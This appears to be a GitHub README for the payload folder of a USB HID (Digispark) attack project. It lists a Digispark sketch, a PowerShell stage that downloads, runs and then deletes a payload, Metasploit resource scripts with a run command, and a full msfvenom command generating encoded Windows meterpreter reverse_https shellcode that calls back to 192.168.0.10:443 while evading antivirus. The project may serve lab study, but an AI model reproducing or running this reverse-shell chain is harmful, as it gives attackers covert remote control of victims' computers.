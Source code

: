 # Folder with all the final payload/scripts

### Warning: Downloading items here will likely trigger alerts with your antivirus programs, do so in a controlled enviroment. Executing files here technically should post no harm since they only connet to a prive IP, again, do so in a controlled enviroment.
Items:
1. ```digispark.cpp``` digispark code for the attack, this version does not get admin privileges.
2. ```1.ps1``` first stage of the attack, download the payload and run it, deletes the payload after process migration is complete.
3. ```0.exe``` the payload.
4. ```kid_msf_auto.rc``` script to fill in all msfconsole parameters, also calls ```auto_migrate.rc``` to migrate process after session opens. run it as ```msfconsole -q -r /home/kali/kid_msf_auto.rc``` in terminal.
5. ```auto_migrate.rc``` to be ran after a session open, migrate process to powershell.exe. Payload will be deleted after migration.
6. ```payload_source.cpp``` source code of the payload.
7. ```shell.c``` raw shellcode generated by msfvenom, generated using ```msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c```
8. ```0.v2.exe``` and ```payload_source.v2.cpp``` are alternate versions of the payload.

*The payload here only connects to 192.168.0.10.*
